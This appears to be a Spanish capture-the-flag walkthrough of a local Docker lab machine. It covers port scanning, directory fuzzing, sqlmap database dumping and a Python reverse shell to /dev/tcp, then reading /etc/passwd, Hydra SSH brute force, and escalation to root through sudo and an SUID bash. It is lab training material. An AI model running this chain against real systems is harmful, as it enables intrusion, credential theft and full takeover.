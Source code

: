 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh showtime.tar
```

![[Pasted image 20250216211018.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250218091735.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![[Pasted image 20250218091931.png]]

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch
```

![[Pasted image 20250218092529.png]]

![[Pasted image 20250218092656.png]]

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch
```

![[Pasted image 20250218092752.png]]

![[Pasted image 20250218092806.png]]

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch
```

![[Pasted image 20250218092857.png]]

![[Pasted image 20250218092911.png]]

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![[Pasted image 20250218092943.png]]

![[Pasted image 20250218092957.png]]

![[Pasted image 20250218093145.png]]

![[Pasted image 20250218093220.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 443
```

![[Pasted image 20250218094005.png]]

```Python
import os
os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'")
```

![[Pasted image 20250218093902.png]]

Miramos en la shell:

![[Pasted image 20250218093941.png]]

```Bash
cat /etc/passwd
```

![[Pasted image 20250218094310.png]]

```Bash
ls -la /tmp
```

![[Pasted image 20250218095339.png]]

```Bash
cat /tmp/.hidden_text.txt
```

![[Pasted image 20250218095440.png]]

```Bash
nano users.txt
```

![[Pasted image 20250218095703.png]]

```Bash
joe
ubuntu
luciano
```

![[Pasted image 20250218095747.png]]

```Bash
nano password.txt
```

![[Pasted image 20250218095502.png]]

```Bash
HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

![[Pasted image 20250218095551.png]]

Las haremos minúsculas:

```Bash
cat password.txt | tr '[:upper:]' '[:lower:]' > password-minus.txt
```

![[Pasted image 20250218100106.png]]

```Bash
cat password-minus.txt
```

![[Pasted image 20250218100128.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -L users.txt -P password-minus.txt ssh://172.17.0.2
```

![[Pasted image 20250218100349.png]]

Nos conectamos con **SSH**:

```Bash
ssh joe@172.17.0.2
```

![[Pasted image 20250218100328.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250218100409.png]]

```Bash
sudo -u luciano posh
```

![[Pasted image 20250218100650.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250218100702.png]]

```Bash
sudo -l
```

![[Pasted image 20250218100724.png]]

```Bash
cd /home/luciano
```

![[Pasted image 20250218100802.png]]

```Bash
ls -l script.sh
```

![[Pasted image 20250218100942.png]]

```Bash
cat script.sh
```

![[Pasted image 20250218100914.png]]

```Bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > script.sh
```

![[Pasted image 20250218113207.png]]

```Bash
cat script.sh
```

![[Pasted image 20250218105112.png]]

```Bash
sudo -u root /bin/bash /home/luciano/script.sh
```

![[Pasted image 20250218113436.png]]

```Bash
bash -p
```

![[Pasted image 20250218113759.png]]

```Bash
whoami
```

![[Pasted image 20250218113858.png]]


